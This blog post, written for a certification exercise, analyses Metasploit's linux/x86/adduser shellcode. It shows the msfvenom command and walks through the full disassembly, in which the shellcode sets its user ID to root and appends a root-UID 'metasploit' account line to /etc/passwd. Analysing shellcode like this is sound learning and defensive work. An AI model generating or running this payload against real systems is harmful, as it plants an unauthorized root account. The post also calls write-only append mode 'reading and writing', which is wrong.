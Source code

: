 ```yaml
---
layout: post
title: "SLAE Problem 5.2: Msfvenom Analysis of linux/x86/adduser"
description: "Analysis of Msfvenom shellcode: linux/x86/adduser"
tags: [asm, shellcode, msfvenom]
---
```



This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

Source code for this assignment can be found [here](https://github.com/blischalk/slae/tree/master/exercise5)

### Analysis

The next shellcode I would like to look at is linux/x86/adduser. My prediction
for this shellcode is that it essentially just runs execve with
`/usr/sbin/adduser` and the arguments that it would require. Lets analyze the
assembly to find out!

Running:

{% highlight bash %}
msfvenom --payload linux/x86/adduser --payload-options
{% endhighlight %}

We see:

{% highlight bash %}
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create
{% endhighlight %}

The username and password both default to `metasploit` and
the shell the user will be assigned will be /bin/sh. We will
most likely find these values as arguments to execve if our
prediction is correct. Lets export the shellcode:

Running `msfvenom --payload linux/x86/adduser R > adduser.bin` we
create our shellcode to analyze. Using `ndisasm -u adduser.bin` we get
the following assembly for analysis:

### /linux/x86/adduser Shellcode ASM


{% highlight nasm %}
;; 0x46       = 70
;; syscall 70 = sys_setreuid
;; man 2 setreuid looks like the following
;; int setreuid(uid_t ruid, uid_t euid);
xor ecx,ecx
mov ebx,ecx
push byte +0x46
pop eax
int 0x80

{% endhighlight %}

As illustrated in the comments, the above chunk of assembly
sets the real and effective user id of of the process to be
0 which elevates the privileges.


{% highlight nasm %}

;; 0x5       = 5
;; syscall 5 = sys_open
push byte +0x5
pop eax

;; Clear out ecx
xor ecx,ecx
;; Push 0x00000000
;; This will null terminate our string
push ecx

;; Build up a file as a string to open
push dword 0x64777373 ;; ‘dwss’
push dword 0x61702f2f ;; ‘ap//‘
push dword 0x6374652f ;; ‘cte/‘

;; Move a pointer to our file to open into ebx
mov ebx,esp

;; Increment ecx to 0x00000001
inc ecx

;; And move 0x4 into the high byte of cx
;; making cx 0x0401 as the flags passed to the open call
mov ch,0x4
int 0x80
{% endhighlight %}

The next chunk of assembly calls open. This opens the `/etc/passwd`
file with the flags of 0x0401. What does 0x0401 stand for? Well,
looking in `/usr/include/asm-generic/fcntl.h` we see:

{% highlight bash %}
define O_WRONLY        00000001
.. snip ..
define O_APPEND        00002000
{% endhighlight %}

The values specified in this header file are defined in octal. Our assembly is
using hex so we do a bit of conversion using gdb:

{% highlight bash %}
gdb --batch --ex "print /o 0x0401"
{% endhighlight %}

This tells us that our hex value actually equals 02001 in octal of which doing
00000001 | 00002000 = 00002001 or O_WRONLY | O_APPEND. This  indicates that we
have opened the file for reading and writing and in append mode. This will
ensure that the cursor is placed at the end of the file.

The next chunk of code gets interesting. We need the memory offsets
to help us a bit:

{% highlight nasm %}
00000025  93                xchg eax,ebx
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80

{% endhighlight %}

The xchg is our usual saving of the file descriptor
returned in eax. We then see a `call dword 0x53` and then
things start to get messy. We know about the jump call pop
technique from our SLAE course, maybe this call is leveraging
the fact that the next address will be popped on the stack. Looking
at the offsets in our disassembly and checking out the bytes from
0x53 on, we see `59 8B 51 fC 6A 04 58 CD 80`. Leveraging this
wonderful online [https://defuse.ca/online-x86-assembler.htm#disassembly2](assembler / disassembler)
we learn what those bytes represent:

{% highlight bash %}
0:  59                      pop    ecx
1:  8b 51 fc                mov    edx,DWORD PTR [ecx-0x4]
4:  6a 04                   push   0x4
6:  58                      pop    eax
7:  cd 80                   int    0x80
{% endhighlight %}

Sure enough the address of the next instruction that was placed on the stack
from our `call` instruction is popped into ecx. An offset from that value
is placed in edx which we will need to investigate a bit and then the
0x4 system call. Looking in `/usr/include/i386-linux-gnu/asm/unistd_32.h` we see
that this is `#define __NR_write 4`.

This makes sense. We just opened the /etc/passwd file and now we want to add
stuff to it. The write syscall signature looks like:

{% highlight c %}
ssize_t write(int fd, const void *buf, size_t count)
{% endhighlight %}

This means edx is the length of what is being written, ecx is the string
we want to write, ebx is the file descriptor to /etc/passwd and eax is our
write sys call number. So what would that offset from ecx equate to?
Zooming in on those bytes:

{% highlight bash %}
00000026  E828000000        call dword 0x53
0000002B  6D <--- ecx is pointing here
{% endhighlight %}

Moving backward 4 bytes from the 0x6D puts us at 0x28. This is the value
that is being used as the length of the buffer in the write syscall.

Converting 0x28 to decimal using gdb:

{% highlight bash %}
gdb --batch --ex "print /d 0x28"
$1 = 40
{% endhighlight %}

We see that 40 bytes is going to be written. Using GDB again:
_Note: 0x2B is the beginning of the gibberish, 0x28 is the 40 bytes
we just calculated._

{% highlight bash %}
gdb --batch --ex "print /x 0x2B + 0x28"
$1 = 0x53
{% endhighlight %}

We see that 0x53 is 40 bytes after our call instruction and is exactly
the byte that was referenced in the call command:

{% highlight bash %}
00000026  E828000000 call dword 0x53
{% endhighlight %}

Ok... Lets checkout the bytes of that gibberish and
see what they might translate to as ascii:

{% highlight bash %}
6D65746173706C6F69743A417A2F6449736A3470344952633A303A3A2F3A2F62696E2F73680A

Converted to ascii outputs:

metasploit:Az/dIsj4p4IRc:0::/:/bin/sh

{% endhighlight %}

Ok. That makes sense. This is the line that will be appended to the /etc/passwd
file in the format that linux would expect, e.g
`username:passwd:UID:GID:full_name:directory:shell`. The user, shell, and
presumably password all match up with the configuration that the payload
defaults to.

{% highlight nasm %}
push byte +0x1
pop eax
int 0x80
{% endhighlight %}

Finally we call exit to exit gracefully. So it turns out that my prediction was
completely inaccurate. Execve was not used to execute the `adduser` command.

¯\\_(ツ)_/¯
